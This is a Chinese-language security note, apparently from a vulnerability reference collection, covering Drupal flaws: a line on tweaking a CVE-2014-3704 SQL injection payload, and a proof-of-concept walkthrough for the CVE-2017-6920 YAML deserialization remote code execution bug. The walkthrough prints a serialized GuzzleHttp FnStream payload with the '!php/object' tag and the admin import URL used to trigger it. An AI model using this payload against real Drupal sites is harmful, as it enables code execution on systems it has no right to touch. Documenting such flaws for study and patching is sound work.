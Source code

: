 可替换 payload 中的 `user()` 为 `database()`，获取数据库名。

### Ref

- [CVE-2014-3704 - cvedetails](https://www.cvedetails.com/cve/CVE-2014-3704/)

## CVE-2017-6920

这是 Drupal Core 的 YAML 解析器处理不当所导致的一个远程代码执行漏洞。

- [x] Drupal < 8.3.4

### PoC

启明星辰 ADLab 通过对本漏洞的深度分析，构造了任意无参数函数的 POC 并测试验证成功，具体验证情况如下：

第一步：序列化一个`GuzzleHttp\Psr7\FnStream`类, 因为序列化后的字符串可能带有不可显示字符，所以采用把结果写入到文件的方式，序列化后的字符串如下：

```
O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}
```

第二步：给该序列化字符串加上 yaml 的`!php/object tag`(注意一定要转义)，最后得到的字符串如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

第三步：登录一个管理员账号，访问如下 URL: http://127.0.0.1:8080/admin/config/development/configuration/single/import ，然后我们进行如图所示的操作：

![](images/drupal-2.png)
